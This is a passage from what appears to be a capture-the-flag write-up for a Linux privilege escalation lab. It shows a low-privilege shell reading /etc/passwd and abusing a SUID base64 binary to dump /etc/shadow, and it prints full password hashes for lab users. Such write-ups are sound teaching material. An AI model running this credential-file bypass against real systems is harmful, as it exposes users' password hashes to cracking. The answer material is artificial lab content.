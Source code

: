 <p>.......................</p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 7.1 - <em>Which user shares the name of a great comic book writer?</em><br>
>> <code><strong>gerryconway</strong></code><br>
<p></p>

<pre><code>$ bash -i
karen@ip-10-10-55-136:/$ cat /etc/passwd
...
gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
user2:x:1002:1002::/home/user2:/bin/sh
...
karen:x:1003:1003::/home/karen:/bin/sh
</code></pre><br>

> 7.2 - <em>What is the password of user2?</em><br>
>> <code><strong>_________________________</strong></code><br>
<p><br></p>

![image](https://github.com/user-attachments/assets/fe29a036-0e32-4393-ada4-c26d4415e3cf)

<pre><code>karen@ip[Target]:/$ /usr/bin/base64 /etc/shadow | /usr/bin/base64 -d
</code></pre><br>


<pre><code> 
root:*:18561:0:99999:7:::
...
nobody:*:18561:0:99999:7:::
...
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
...
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::
</code></pre><br>

> 7.3 - <em>What is the content of the flag3.txt file?</em><br>
>> <code><strong>______________________</strong></code><br>
<p><br></p>

<pre><code># 
</code></pre><br>

<h2>Task 8 - Privilege Escalation: Capabilities</h2>
<br>

<p><strong>Note: Launch the target machine attached to this task to follow along.<br>

You can launch the target machine and access it directly from your browser.<br>

Alternatively, you can access it over SSH with the low-privilege user credentials below:<br><br>
